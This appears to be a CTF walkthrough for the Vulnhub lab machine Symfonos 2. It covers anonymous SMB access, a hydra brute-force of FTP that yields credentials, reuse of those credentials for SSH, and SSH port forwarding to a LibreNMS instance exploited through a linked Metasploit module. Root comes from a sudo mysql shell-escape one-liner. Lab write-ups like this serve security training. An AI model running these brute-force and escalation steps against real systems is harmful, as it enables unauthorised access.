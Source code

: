 ```yaml
---
"title": "Vulnhub - Symfonos 2"
"date": 2020-03-10
"tags": ["medium", "ftp", "port_forward", "smb", "hydra", "sudo"]
"keywords": ["medium", "ftp", "port_forward", "smb", "hydra", "sudo"]
"author": "Ghostbyt3"
"description": "So ``anonymous`` is having ``log.txt`` in ``/backups`` which is readable."
"featured_image": "/img/symfonos2/1.png"
"layout": "single"
"showTableOfContents": true
"authorbox": true
"pager": true
"toc": true
"mathjax": true
"sidebar": "right"
"subtitle": "Writeup"
---
```



Today, We are going to pwn Symfonos 2 by Zayotic from Vulnhub

## Description:

```
OSCP-like Intermediate real life based machine designed to teach the importance of understanding a vulnerability. SHOULD work for both VMware and Virtualbox.
```
Download Link : [https://www.vulnhub.com/entry/symfonos-2,331/](https://www.vulnhub.com/entry/symfonos-2,331/)


Lets Begin with our Initial Scan

## Nmap Scan Results:
```
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         ProFTPD 1.3.5
22/tcp  open  ssh         OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 9d:f8:5f:87:20:e5:8c:fa:68:47:7d:71:62:08:ad:b9 (RSA)
|   256 04:2a:bb:06:56:ea:d1:93:1c:d2:78:0a:00:46:9d:85 (ECDSA)
|_  256 28:ad:ac:dc:7e:2a:1c:f6:4c:6b:47:f2:d6:22:5b:52 (ED25519)
80/tcp  open  http        WebFS httpd 1.21
|_http-server-header: webfs/1.21
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.5.16-Debian (workgroup: WORKGROUP)
MAC Address: 08:00:27:71:B2:8E (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Host: SYMFONOS2; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h40m22s, deviation: 2h53m12s, median: 22s
|_nbstat: NetBIOS name: SYMFONOS2, NetBIOS user: [unknown](unknown), NetBIOS MAC: [unknown](unknown) (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.5.16-Debian)
|   Computer name: symfonos2
|   NetBIOS computer name: SYMFONOS2\x00
|   Domain name: \x00
|   FQDN: symfonos2
|_  System time: 2020-03-09T12:31:01-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-03-09T17:31:01
|_  start_date: N/A
```

Lot of Ports open, I started with ``smb``

## SMB :

We can use smbmap to see is there any files available.

 > smbmap - SMB enumeration tool

> -H HOST   		IP of host

![Untitled](/img/symfonos2/1.png)

So ``anonymous`` is having ``log.txt`` in ``/backups`` which is readable.

There is a tool called ``smbclient`` which helps to access to the server.

> smbclient - ftp-like client to access SMB/CIFS resources on servers

I tried login with ``anonymous`` without password and it worked, Downloaded the ``log.txt`` to my machine.

![Untitled](/img/symfonos2/2.png)

``log.txt`` 

Its the ``smb`` configuration, the Interesting thing is 


shadow file is stored in /var/backups/shadow.bak
``
root@symfonos2:~# cat /etc/shadow > /var/backups/shadow.bak
``


The exact path of the SMB share 
```
[anonymous]
   path = /home/aeolus/share
   browseable = yes
   read only = yes
   guest ok = yes
```
There is also FTP Conf file 

``root@symfonos2:~# cat /usr/local/etc/proftpd.conf``

So FTP is running under the user ``aeolus`` not anonymous.
```
# Set the user and group under which the server will run.
User				aeolus
Group				aeolus
```

## FTP :

We know the FTP is running under ``aeolus`` user but we don't have the password for it, So I started bruteforcing it using ``hydra``.

>hydra - a very fast network logon cracker which supports many different services


>hydra -l aeolus -P /usr/share/wordlists/rockyou.txt ftp://192.168.1.101

![Untitled](/img/symfonos2/3.png)


``aeolus : sergioteamo ``

Its the same ``log.txt`` we got from ``SMB``

![Untitled](/img/symfonos2/4.png)

## SSH :

I used the same creds for ``ssh``

``aeolus : sergioteamo ``

![Untitled](/img/symfonos2/5.png)

## Privilege Escalation :

Uploaded My Enumeration script to the machine and found some ports are listening to the machine.

```
================================================================( network )=====
[*] net000 Services listening only on localhost............................ yes!
---
tcp    LISTEN     0      80     127.0.0.1:3306                  *:*                  
tcp    LISTEN     0      128    127.0.0.1:8080                  *:*                  
tcp    LISTEN     0      20     127.0.0.1:25                    *:*                  
---
```

```
Port 3306 - MySQL
Port 25 - SMTP
Port 8080 - Webpage (Maybe)
```
I confirmed it by using ``curl``, There is a login page.
```
aeolus@symfonos2:/tmp$ curl localhost:8080
[!DOCTYPE html](!DOCTYPE html)
[html](html)
    [head](head)
        [meta charset="UTF-8" /](meta charset="UTF-8" /)
        [meta http-equiv="refresh" content="0;url=http://localhost:8080/login" /](meta http-equiv="refresh" content="0;url=http://localhost:8080/login" /)

        [title](title)Redirecting to http://localhost:8080/login[/title](/title)
    [/head](/head)
    [body](body)
        Redirecting to [a href="http://localhost:8080/login"](a href="http://localhost:8080/login")http://localhost:8080/login[/a](/a).
    [/body](/body)
[/html](/html)You have new mail in /var/mail/aeolus
```

We can't see port 8080 directly so We need to do [Port Forward](https://en.wikipedia.org/wiki/Port_forwarding) by doing this we can access the webpage from our machine.

For that press ``~C`` will open ssh interactive shell and then ``-L 8081:127.0.0.1:8080`` Which port forward 8080 to 8081.

![Untitled](/img/symfonos2/6.png)

``http://127.0.0.1:8081/``

It's ``LibreNMS`` Login page.
![Untitled](/img/symfonos2/7.png)

I searched for any exploits available and found this.

>https://www.rapid7.com/db/modules/exploit/linux/http/librenms_addhost_cmd_inject

![Untitled](/img/symfonos2/8.png)

Now we got ``cronus`` user shell.[br/](br/)
![Untitled](/img/symfonos2/9.png)

The First thing I did is ``sudo -l`` 

```
$ sudo -l
sudo -l
Matching Defaults entries for cronus on symfonos2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cronus may run the following commands on symfonos2:
    (root) NOPASSWD: /usr/bin/mysql
```
Looks like ``mysql`` can run as root without password.

I searched in [GTFOBins](https://gtfobins.github.io/gtfobins/mysql/)

> sudo mysql -e '\! /bin/sh'

![Untitled](/img/symfonos2/10.png)


